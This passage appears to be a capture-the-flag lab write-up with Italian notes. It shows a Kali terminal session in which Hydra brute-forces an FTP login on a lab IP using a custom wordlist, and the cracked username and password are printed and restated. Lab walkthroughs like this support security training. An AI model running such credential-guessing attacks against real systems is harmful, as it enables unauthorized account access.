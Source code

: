 1)  nano wordlistrabbit.txt


┌──(kali㉿kali)-[~]
└─$ hydra -l ftpuser -P /home/kali/wordlistrabbit.txt ftp://10.10.116.11 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-05 15:12:52
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.116.11:21/
[21][ftp] host: 10.10.116.11   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-05 15:13:06

2) Abbiamo scoperto:
- username: ftpuser 
- password:  5iez1wGXKfPKQ
